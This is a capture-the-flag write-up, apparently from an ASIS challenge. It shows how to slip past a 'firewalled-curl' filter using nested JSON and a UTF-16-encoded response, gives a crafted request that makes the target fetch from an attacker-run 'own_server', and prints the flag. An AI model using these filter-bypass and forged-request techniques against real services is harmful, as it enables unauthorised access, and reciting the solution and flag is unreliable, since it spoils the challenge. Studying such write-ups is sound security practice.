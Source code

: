 ## Solution to the second problem

The bug is quite easy to spot. If **request** is a dict with element like **"flag":"sth"**, only the **"sth"** string will be checked later in recursion.

Also the check from **flag-container** (`'request' in r and 'flag' in r['request']`) will return **True** because **request** element is indeed within the response and has a key **flag** in it.

So to pass both checks, we need to set up a server that will return `{"request":{"flag":"sth"}}`.

### [upd] Intended solution
It turned out that the intended solution was changing the encoding of a json file. The **isJson** function from **firewalled-curl** was failing in the `try {} catch {}` block in case non utf-8 encoding was using.

You can get the utf-16 .json file using the following commands:

```bash
% echo {"request":"flag"} > secret.json
% iconv -f ASCII -t UTF-16 secret.json -o secret_utf16.json
```

After it, you need to remove the first 2 byte-order-mark bytes so that **body.decode()** won’t fail. **Response.json()** from **flag-container** will still correctly guess the encoding (https://github.com/psf/requests/blob/main/requests/utils.py#L950), but **firewalled-curl** will fail to detect the json response.

## Flag

The final request body will look like this:

```json
{
    "host":"flag-container:80",
    "headers":{
        "X-Request":"sth",
        " flag":"sth"
    },
    "method":"GET",
    "path":"/flag?args={\"host\":\"own_server:1000\",\"headers\":{},\"method\":\"GET\",\"path\":\"/secret.json\",\"returnJson\":false}",
    "returnJson":true
}
```

The content of `http://own_server:1000/secret.json` is `{"request":{"flag":"sth"}}`.

![img](/images/RMo6lTcKeTSsel6is9AtxGZB5aCR8r0Q)

And the flag is `ASIS{SEEmS-l1KE-y0u-KN0w-h77p}`